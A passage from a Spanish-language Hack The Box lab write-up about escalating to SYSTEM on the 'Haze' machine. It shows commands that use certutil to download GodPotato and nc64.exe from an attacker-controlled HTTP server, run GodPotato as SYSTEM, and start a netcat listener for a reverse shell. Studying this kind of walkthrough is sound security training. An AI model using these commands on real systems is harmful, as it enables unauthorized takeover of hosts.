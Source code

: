 ```terminal
/home/kali/Documents/Tools:-$ wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O GodPotato/GodPotato-NET4.exe
/home/kali/Documents/Tools:-$ python3 -m http.server
```

Desde la máquina comprometida, creé un directorio temporal y descargué tanto `GodPotato-NET4.exe` como `nc64.exe`, este último para establecer la reverse shell.

```powershell
PS C:\windows\Temp> mkdir Priv
PS C:\windows\Temp\Priv> certutil.exe -urlcache -split -f http://10.10.14.249:8000/GodPotato/GodPotato-NET4.exe
PS C:\Windows\Temp\Priv> certutil.exe -urlcache -split -f http://10.10.14.249:8000/NetCat/nc64.exe
```

Para validar que el exploit funciona, ejecuté GodPotato con un comando simple que imprime el usuario actual. La salida confirmó que el exploit fue exitoso, logrando lanzar un nuevo proceso como `NT AUTHORITY\SYSTEM`.

```powershell
PS C:\Windows\Temp\Priv> ./GodPotato-NET4.exe -cmd "cmd /c whoami"
```

![](assets/img/htb-writeup-haze/haze4_1.png)

Preparé un listener en mi equipo para recibir una conexión inversa.

```terminal
/home/kali/Documents/htb/machines/haze:-$ rlwrap -cAr nc -lnvp 4443
	listening on [any] 4443 ...
```

Y ejecuté nuevamente GodPotato, esta vez con el objetivo de iniciar la reverse shell hacia mi listener.
